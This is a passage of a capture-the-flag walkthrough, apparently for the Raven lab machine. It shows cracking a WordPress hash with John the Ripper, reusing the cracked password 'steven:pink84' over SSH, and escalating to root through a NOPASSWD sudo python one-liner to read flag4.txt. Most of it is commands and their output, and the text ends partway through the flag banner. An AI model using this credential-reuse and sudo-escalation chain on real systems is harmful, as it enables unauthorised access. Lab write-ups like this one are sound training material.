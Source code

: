 ```
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
pink84           (?)
1g 0:00:00:02 DONE (2021-08-03 00:04) 0.4366g/s 20122p/s 20122c/s 20122C/s tamika1..james03
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session completed
```
- John successfully cracked the hash giving use the credentials `steven:pink84`
- We will reley credential reuse and no private ssh key to try get us in via ssh.
```
root@Kali:~# ssh steven@192.168.1.110
steven@192.168.1.110's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Aug  3 17:10:08 2021 from 192.168.1.90
$ /usr/bin/script -qc /bin/bash /dev/null
steven@target1:~$ 
```
- Now with access we will leverage [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) again to automate any useful information or quick ways privesc.

```
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                                                
Matching Defaults entries for steven on raven:                                                                                             
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User steven may run the following commands on raven:
    (ALL) NOPASSWD: /usr/bin/python
```
- Seeing that steven can run python as sudo  we head to [GTFOBins](https://gtfobins.github.io/) to help us bypass local security restrictions in misconfigured systems to elevate our privledges.
- If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
```
steven@target1:~$ sudo python -c 'import os; os.system("/bin/sh")'
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
```
- Now with root privledges we can look in roots home direcorty for the flag.
```
# pwd   
/home/steven
# cd /root/     
# ls
flag4.txt
# cat flag4.txt 
______                      

| ___ \                     

| |_/ /__ ___   _____ _ __  

|    // _` \ \ / / _ \ '_ \ 
```